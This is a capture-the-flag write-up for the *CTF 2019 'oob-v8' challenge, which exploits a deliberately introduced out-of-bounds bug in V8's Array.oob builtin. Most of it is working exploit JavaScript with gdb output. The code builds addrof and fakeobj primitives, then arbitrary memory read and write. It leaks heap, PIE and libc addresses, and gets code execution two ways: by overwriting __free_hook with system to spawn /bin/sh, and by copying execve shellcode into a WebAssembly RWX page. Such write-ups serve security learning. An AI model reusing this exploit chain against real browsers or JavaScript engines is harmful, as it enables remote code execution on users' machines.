




## Writeup

### Misc

+ Artifact: V8
+ Version: v7.5.0
+ Time: 2019-Apr-05
+ Description: Manually introduced oob vulnerability
+ CTF: *CTF 2019
+ Challenge Name: oob-v8

Refer to: https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/

### Vulnerability

The challenge manully introduced a vulnerability that allows us to achieve a out-of-bound write at the end of array by one index.

```
+BUILTIN(ArrayOob){
+    uint32_t len = args.length();
+    if(len > 2) return ReadOnlyRoots(isolate).undefined_value();
+    Handle<JSReceiver> receiver;
+    ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+            isolate, receiver, Object::ToObject(isolate, args.receiver()));
+    Handle<JSArray> array = Handle<JSArray>::cast(receiver);
+    FixedDoubleArray elements = FixedDoubleArray::cast(array->elements());
+    uint32_t length = static_cast<uint32_t>(array->length()->Number());
+    if(len == 1){
+        //read
+        return *(isolate->factory()->NewNumber(elements.get_scalar(length)));
+    }else{
+        //write
+        Handle<Object> value;
+        ASSIGN_RETURN_FAILURE_ON_EXCEPTION(
+                isolate, value, Object::ToNumber(isolate, args.at<Object>(1)));
+        elements.set(length,value->Number());
+        return ReadOnlyRoots(isolate).undefined_value();
+    }
+}
```

### Memory Layout

Try with the simplest JavaScript file and check the memory layout, I find out that the end of array elements is JSArray object itself. By leveraging the oob vulnerability, it means that we can overwrite the Map field of the JSArray object.

```
let a = [1.1, 2.2, 3.3];
%DebugPrint(a);
Math.cosh(1);
```





### Type Confusion

Overwriting the Map field in a JSArray object can lead to type confusion in V8, JavaScript's engine. This field determines the type of an array's elements and how they are accessed:

1. Array of Objects: When we define an array containing objects and access an element (e.g., at index 0), V8 interprets the value at this index as a pointer to an object. For instance, accessing this element would result in V8 fetching and printing the referenced object.

2. Array of Floats: Conversely, in an array of floating-point numbers, accessing an element directly yields the floating-point value. Here, V8 treats the value at the index as a float value.

This type confusion is crucial in V8 exploitation. To leak the address of a JSObject, we need to trick V8 into interpreting the object's pointer as an immediate value. Similarly, to perform arbitrary writes, we confuse V8 into interpreting an immediate value (such as an address) as a pointer, allowing us to overwrite the data it points to.

To leak arbitrary object's address, we can overwrite the Map field of a array of object to an array of float, then it will treat its element as float value which actually is a object pointer.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

obj_arr.oob(map2);
let addr = obj_arr[0];
console.log("[+] addr of temp_obj: 0x" + ftoi(addr).toString(16));
// [+] addr of temp_obj: 0x2c4b4c4eab1
```

In contrast, we can foo the V8 to treat an arbitrary float value as an object.

```
fl_arr.oob(map1);
let fakeobj = fl_arr[0]; // treat 1.1 in hex format as an address of object
console.log("[+] fakeobj: 0x" + ftoi(fakeobj).toString(16));
```

Therefore, we can get two basic exploit primitives: `addrof` and `fakeobj`.

```
var temp_obj = {"A":1};
var obj_arr = [temp_obj];
var fl_arr = [1.1, 1.2, 1.3, 1.4];
var map1 = obj_arr.oob();
var map2 = fl_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;    // First, put the obj whose address we want to find into index 0
    obj_arr.oob(map2);      // Change the obj array's map to the float array's map
    let addr = obj_arr[0];  // Get the address by accessing index 0
    obj_arr.oob(map1);      // Set the map back
    return ftoi(addr);      // Return the address as a BigInt
}

function fakeobj(addr) {
    fl_arr[0] = itof(addr);     // First, put the address as a float into index 0 of the float array
    fl_arr.oob(map1);           // Change the float array's map to the obj array's map
    let fake = fl_arr[0];       // Get a "fake" object at that memory location and store it
    fl_arr.oob(map2);           // Set the map back
    return fake;                // Return the object
}
```

Here is the helper functions:

```
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```

### Arbitrary Read & Write Primitives

#### Arbitrary Read Primitive
To establish an arbitrary address read primitive using `addrof` and `fakeobj`, the process involves manipulating a float array and creating a fake object. Here's a concise explanation of the steps:

1. Create a Float Array: Start with a float array of exactly four elements. The element object of this array will be positioned at the lower 0x30 of the float array object.
2. Create a Fake Object: Transform the elements into a fake object, with the type set as a float array.
3. Place Target Address: Position the target address at element[2] of the float array. This position will be interpreted as the element field of the fake object.
4. Access the Fake Object: By accessing index 0 of the fake object, V8 attempts to retrieve the value at `target address + 0x10`.



```
// If we want to leak the following string:
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));
// %SystemBreak();
// [+] Address of target string: 0xc6a37f9f3c9
// (gdb) x/32xw 0xc6a37f9f3c9-1
// 0xc6a37f9f3c8:	0xd9840461	0x00003369	0xe62bbeea	0x00000008
// 0xc6a37f9f3d8:	0x41414141	0x41414141	0xd9840461	0x00003369  <-- target_string
// 0xc6a37f9f3e8:	0xfe1f98a6	0x00000012	0x67726174	0x735f7465

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));
// %SystemBreak();

// [+] Leak address of floatArray: 0x3dbbd148f619
// (gdb) x/32xw 0x3dbbd148f619-1-0x30
// 0x3dbbd148f5e8:	0xd98414f9	0x00003369	0x00000000	0x00000004  <-- FixedDoubleArray
// 0x3dbbd148f5f8:	0x43142ed9	0x00003fb1	0x33333333	0x3ff33333
// 0x3dbbd148f608:	0x37f9f3c9	0x00000c6a	0x66666666	0x3ff66666  <-- elements[2]
// 0x3dbbd148f618:	0x43142ed9	0x00003fb1	0xd9840c71	0x00003369  <-- JSArray
// 0x3dbbd148f628:	0xd148f5e9	0x00003dbb	0x00000000	0x00000004  <-- elements ptr
// 0x3dbbd148f638:	0xd9840561	0x00003369	0x43142ed9	0x00003fb1
// 0x3dbbd148f648:	0xd98412c9	0x00003369	0x00000000	0x00000001
// 0x3dbbd148f658:	0x00000000	0x00000400	0xd98413b9	0x00003369

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10
```

The primitive code:

```
// This array is what we will use to read from and write to arbitrary memory addresses
var arb_rw_arr = [float_arr_map, 1.2, 1.3, 1.4];

console.log("[+] Controlled float array: 0x" + addrof(arb_rw_arr).toString(16));

function arb_read(addr) {
    // We have to use tagged pointers for reading, so we tag the addr
    if (addr % 2n == 0)
	addr += 1n;

    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to read_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Index 0 will then return the value at read_addr
    return ftoi(fake[0]);
}
```


#### Arbitrary Write Primitive

According to the [blog](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/) that if we reuse the arbirary read primitive and try to overwrite the `fakeobj[0]`, it won't work on some addresses (e.g. free_hook addr). However, overwrite the string field (valid JS runtime object field) in the above example is still working.

```
let target_string = "AAAAAAAA";
let target_string_addr = addrof(target_string);
console.log("[+] Address of target string: 0x" + target_string_addr.toString(16));

let floatArray = [1.1, 1.2, 1.3, 1.4];
let floatArrayMap = floatArray.oob();
floatArray[0] = floatArrayMap;
floatArray[2] = itof(BigInt(target_string_addr));
console.log("[+] Leak address of floatArray: 0x" + addrof(floatArray).toString(16));

let fakeArray = fakeobj(addrof(floatArray)-0x20n);
console.log("[+] Leak: 0x" + ftoi(fakeArray[0]).toString(16)); // Leak the value at target_string_addr + 0x10

console.log("[+] Try to overwrite to this value: " + itof(BigInt(0x4242424242424242)));
fakeArray[0] = itof(BigInt(0x4242424242424242));
console.log("[+] Leak fakeArray[0]: " + fakeArray[0]); 
console.log("[+] Leak target_string: " + target_string)

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Address of target string: 0x24bf42cdf3c9
[+] Leak address of floatArray: 0x292080f9f9
[+] Leak: 0x4141414141414141
[+] Try to overwrite to this value: 156842099844.53125
[+] Leak fakeArray[0]: 156842099844.53125
[+] Leak target_string: DBBBBBB // this is because BigInt -> Float -> (Char)Byte has loss of accuracy
```

Therefore, we can achieve a initial version of arbitrary address overwrite and try to build a more powerful arbitrary address overwrite primitive.

```
function initial_arb_write(addr, val) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // Change the elements pointer using our crafted array to write_addr-0x10
    arb_rw_arr[2] = itof(BigInt(addr) - 0x10n);

    // Write to index 0 as a floating point value
    fake[0] = itof(BigInt(val));
}
```

**A more robust version**

To achieve a more robust version of arbitrary address write primitive, we need to use `ArrayBuffer` and `DataView` object. These two object types provide a more low-level access for raw binary data buffer: `ArrayBuffer` represent an array of bytes (e.g. byte array), and `DataView` provides a way to define how would you interpret these bytes.

Instead of using a Array of float, we use the Array of bytes (i.e. `ArrayBuffer`) and try to overwrite its `backing_store` (which can be seen as the `elements` field of the Array of float).



```
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```

### Achieve Control-flow Hijacking: Overwrite __free_hook to system

After creating the primitives, we now need to leak the glibc base address, where `__free_hook` and `system` symbol has a fixed offset to. Currently, all the JS runtime objects will be allocated on the page allocated by V8's memory allocator (V8's heap) which is apart from the heap allocated by `ptmalloc`. Therefore, we need to leak the address of other pages (e.g. text segement, heap or glibc) on the V8's heap. 

#### Leak heap space
```
(gdb) search-pattern 0x000055d8 little 0x0000101634300000-0x0000101634340000
[+] Searching '\xd8\x55\x00\x00' in 0x0000101634300000-0x0000101634340000
[+] In (0x101634300000-0x101634340000), permission=rw-
  0x101634300014 - 0x101634300024  →   "\xd8\x55\x00\x00[...]" 
  0x10163430001c - 0x10163430002c  →   "\xd8\x55\x00\x00[...]" 
```

```
// buf_addr = 0x10163430ddd0
// v8_heap_base_addr = buf_addr & 0xffffffff0000n
let buf_addr = addrof(buf);
let v8_heap_base_addr = buf_addr & 0xffffffff0000n
let heap_ptr_addr = v8_heap_base_addr + 0x10n;

let heap_ptr = arb_read(heap_ptr_addr);
let heap_base = heap_ptr
console.log("[+] Leak a Heap pointer: 0x" + heap_ptr.toString(16));

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Leak a Heap pointer: 0x555809da46d0
[+] Heap base address: 0x555809d2c000
```

#### Leak text segment

Similarly, we search the heap space and see whether there is a pointer that points to glibc or text segment.

```
(gdb) search-pattern 0x0000558485 little 0x0000558487367000-0x0000558487415000
[+] Searching '\x85\x84\x55\x00\x00' in 0x0000558487367000-0x0000558487415000
[+] In '[heap]'(0x558487367000-0x558487415000), permission=rw-
  0x55848736966b - 0x55848736967f  →   "\x85\x84\x55\x00\x00[...]" 
(gdb) x/32xw 0x558487369668
0x558487369668:	0x85c259b5	0x00005584	0x0000001d	0x00000000
0x558487369678:	0x87369a80	0x00005584	0x00000000	0x65757274
```

```
let text_seg_ptr= arb_read(heap_base_addr + 0x2668n);
let pie_base_addr = text_seg_ptr - 0xBE9B5n;
console.log("[+] Leak a PIE pointer: 0x" + pie_base_addr.toString(16));
```

#### Leak glibc

Once we leak the PIE base, we can leak the `puts_got` symbol which is located at the `.got` segement and points to the function on the glibc page.

```
(gdb) got puts
GOT protection: Full RelRO | GOT functions: 228 
[0x5644e9dfe3b8] puts@GLIBC_2.2.5  →  0x7fd36c527970
```

```
let puts_got_addr = pie_base_addr + 0xD9A3B8n;
let puts_addr = arb_read(puts_got_addr);
let libc_base_addr = puts_addr - 0x80970n;
console.log("[+] Leak a libc pointer: 0x" + libc_base_addr.toString(16));
```

#### Overwrite the __free_hook to system

Then, we try to calculate the offset of `__free_hook` and `system` on within glibc.
```
(gdb) p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7f55961f08e8 <__free_hook>

(gdb) p system
$2 = {int (const char *)} 0x7f5595e52420 <__libc_system>
```

```
let free_hook_addr = libc_base_addr + 0x3ed8e8n;
let system_addr = libc_base_addr + 0x4f420n;
arb_write(free_hook_addr, system_addr);
%SystemBreak();

// OUTPUT CHECK
(gdb) p __free_hook
$1 = (void (*)(void *, const void *)) 0x7fc5e6103420 <__libc_system>
```

Then, we just need that following line which will trigger `system('/bin/sh')` when the `/bin/sh` string is being freed.
```
console.log("/bin/sh");
```

### Achieve Control-flow Hijacking: Create RWX page with WebAssembly

In earlier versions of V8, the engine would generate a read-write-execute (RWX) page for WebAssembly code. The `wasm_code` in the following snippet is a simple function `main`, that returns 42. This setup ensures V8 generates an `RWX` page. Once the function is invoked, V8 jumps to the starting address of the `RWX` page, which serves as a jump table, redirecting the control flow to the `main` function.


```
// https://wasdk.github.io/WasmFiddle/
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;

var rwx_page_addr = arb_read(addrof(wasm_instance)-1n+0x88n);

console.log("[+] RWX Wasm page addr: 0x" + rwx_page_addr.toString(16));

// OUTPUT
[+] RWX Wasm page addr: 0x7b54b655000
```

Therefore, we just need to place our shellcode to the starting address of the `RWX` page and call the `main` function.

```
function copy_shellcode(addr, shellcode) {
    let buf = new ArrayBuffer(0x100);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);

    for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4*i, shellcode[i], true);
    }
}

// reference: https://www.anquanke.com/post/id/267518?hmsr=joyk.com&utm_source=joyk.com&utm_medium=referral#h3-14
var shellcode = [
  0x99583b6a, 0x2fbb4852, 
  0x6e69622f, 0x5368732f,
  0x57525f54, 0x050f5e54
];

copy_shellcode(rwx_page_addr, shellcode);
f();
```
